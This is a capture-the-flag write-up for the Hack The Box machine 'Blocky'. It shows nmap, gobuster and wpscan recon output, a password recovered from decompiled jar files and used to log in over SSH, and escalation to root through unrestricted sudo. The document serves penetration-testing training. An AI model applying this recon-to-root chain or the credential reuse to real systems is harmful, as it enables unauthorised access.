





# Blocky

## Machine Info



## Recon

- nmap

```console
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X (90%), Crestron 2-Series (86%), Google Android 4.X (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:google:android:4.0 cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.18 (90%), Linux 3.2 - 4.9 (90%), Linux 3.8 - 3.11 (90%), Linux 4.2 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- path

```console
$ gobuster dir -u http://blocky.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/.php                 (Status: 403) [Size: 289]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-login.php         (Status: 200) [Size: 2397]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 289]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://blocky.htb/wp-login.php?action=register]
/server-status        (Status: 403) [Size: 298]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```





## Foothold

### FTP -> nothing

### Wordpress Scan -> nothing

`$ wpscan -e ap,at,tt,cb,dbe,u,m --plugins-detection aggressive --url http://blocky.htb`

The command you've presented uses `wpscan`, which is a free and open source black box WordPress vulnerability scanner that can be used to scan WordPress websites for security issues.

Here's a breakdown of the command and its options:

- `wpscan`: This is the actual command to start the WPScan tool.

- `-e`: This option stands for `enumerate`, which tells WPScan to enumerate or list certain items on the WordPress site.

- `ap`: Enumerate all plugins.

- `at`: Enumerate all themes.

- `tt`: Enumerate timthumb files.

- `cb`: Enumerate config backups.

- `dbe`: Enumerate db exports.

- `u`: Enumerate users.

- `m`: Enumerate media (attachment files).

- `--plugins-detection`: This specifies the mode of detection for plugins. The `aggressive` value tells WPScan to use more aggressive methods to detect plugins which can include checking for items that exist in the source code of the website but may not be indexed by search engines or are not linked within the site's normal navigation.

- `--url`: This option specifies the URL of the WordPress website to scan. In this case, it's `

  http://blocky.htb

  `. This appears to be a URL that might be used for a local or internal network (as indicated by the `.htb` domain, commonly used for hack the box challenges or local testing environments), rather than a public website.

```console
[+] akismet
 | Location: http://blocky.htb/wp-content/plugins/akismet/
 | Last Updated: 2023-11-07T21:44:00.000Z
 | Readme: http://blocky.htb/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.3
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://blocky.htb/wp-content/plugins/akismet/, status: 200
 |
 | Version: 3.3.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
```

- [WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/37902) -> nothing

### Credit Leakage

- username: **NOTCH**



- jar files




- `notch:8YsqfCTnvxAUeduzjNSXe22` -> **SSH**

```console
$ ssh notch@$IP
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
```

## Privilege Escalation

```console
notch@Blocky:~$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# uname -a
Linux Blocky 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
root@Blocky:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:44:30 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.37/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4430/64 scope link
       valid_lft forever preferred_lft forever
```

## Exploit Chain

port scan -> path scan -> sensitive jar files -> jd-gui -> cred -> ssh -> sudo -l -> root shell
